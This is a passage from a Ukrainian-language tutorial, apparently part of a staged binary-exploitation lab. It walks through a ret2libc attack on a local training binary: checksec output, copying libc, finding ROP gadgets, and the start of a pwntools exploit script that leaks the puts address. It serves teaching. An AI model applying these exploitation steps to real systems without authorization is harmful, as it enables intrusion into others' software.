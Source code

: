 Очікується:
```
RELRO:        Partial RELRO
Stack:        No canary found
NX:           NX enabled     ← Важливо!
PIE:          No PIE
```

### Крок 2: Підготовка - витяг libc

**Знайдіть яка libc:**
```bash
ldd ../build/stage08_ret2libc | grep libc
# libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6
```

**Скопіюйте для exploit:**
```bash
cp /lib/x86_64-linux-gnu/libc.so.6 ./libc.so.6
cp /lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 ./ld.so.2
```

### Крок 3: Знайдіть ROP gadget'и

**Варіант A: Автоматично через pwntools:**
```python
from pwn import *
libc = ELF('./libc.so.6')
rop = ROP(libc)
print(rop.find_gadget(['pop rdi', 'ret']))
```

**Варіант B: ROPgadget:**
```bash
ROPgadget --binary ./libc.so.6 --only "pop|ret" | grep "pop rdi"
```

### Крок 4: Створіть exploit (система shell)

Файл `exploit_system.py`:

```python
#!/usr/bin/env python3
from pwn import *

# Налаштування
context.arch = 'amd64'
context.log_level = 'info'

# Завантажуємо файли
elf = ELF('../build/stage08_ret2libc', checksec=False)
libc = ELF('./libc.so.6', checksec=False)

# Параметри
OFFSET = 72

def exploit():
    # Запускаємо процес
    io = process('../build/stage08_ret2libc')

    # === ЕТАП 1: LEAK ===
    io.recvuntil(b'BOF:')
    io.sendline(b'LEAK')

    # Отримуємо leak
    io.recvline()
    leaked_puts = int(io.recvline().split(b'=')[1], 16)
    log.success(f"Leaked puts: {hex(leaked_puts)}")
```
